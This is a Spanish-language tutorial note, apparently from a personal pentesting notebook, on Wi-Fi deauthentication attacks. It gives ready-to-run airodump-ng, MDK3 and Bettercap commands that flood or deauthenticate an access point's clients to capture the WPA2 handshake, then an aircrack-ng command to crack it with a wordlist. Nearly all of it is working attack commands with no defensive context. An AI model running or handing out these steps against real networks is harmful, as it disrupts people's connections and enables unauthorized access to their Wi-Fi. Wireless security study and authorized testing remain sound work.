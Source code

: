 # De Auntenticacion con MDK3
Este ataque lo que hace es generar una n cantidad de clientes ser autenticados en el AC victima, de esta manera saturar la red y que los clientes reales se desconecten provocando que se vuelvan a conectar y capturar el handshake.

Empezamos a capturar todo el trafico del AC para llegar a capturar el Handshake

	airodump-ng -c 6 -w CapturasDeAuth-RedBlack --essid Black wlan1mon

- -c 6 *canal del AC*
-  -w Capturas  *nombre del archivo donde se guardara las capturas*
-  --essid Black *nombre del AC*

Una que empezamos a capturar el trafico realizaremos el ataque, esto empezara a generar miles de clientes falsos tratando de autentificarse al AC

	mdk a -a D0:B6:6F:5A:AC:BD 

- a *tipo de ataque*
- -a *direccion mac del AC*


# De Auntenticacion con BetterCap
Aqui se explica que es la herramienta [[BetterCap]]

	airmon-ng start wlan0
Activamos la tarjeta de red en modo monitor

	bettercap -iface wlan0mon
Iniciamos el bettercap

	wlan0mon# wifi.recon on
Escaneamos los AC disponibles

	events.ignore <evento>
Ignora los eventos que se van surgiendo

	wifi.show 
Muestra los AC  disponibles

	set net.sniff.output CapturasDeAuth.pcap
Empecificamos donde guardaremos las capturas cuando hagamos un sniff

	net.sniff on
Empezamos a sniffear todos los AC que tenemos al alcance

	wifi.recon.channel 2
Especificamos el canal del AC que queremos sniffear

	wifi.deauth 68:d7:9a:56:24:c6
Iniciamos el ataque deAuth *global* al AC
-68:d7:9a:56:24:c6 *BSSID del AC*
Debemos de vizualizar en los outputs *WPA2 HandShake (FULL)* esto se debe a que se capturo un [[HandShake]]

Ahora una vez que tenemos el handshake, podemos romper el hash conla herramienta de aircrack-ng 

	aircrack-ng -w dicc.txt CapturaDeAuth.pcap
Aqui aplicamos fuerza bruta con aircrack-ng proporcionando un diccionario y la captura del handshake, se desplegara un menu de todo el sniff, solo debemos de proporcionar el id del regitro donde se encuestra el handshake.

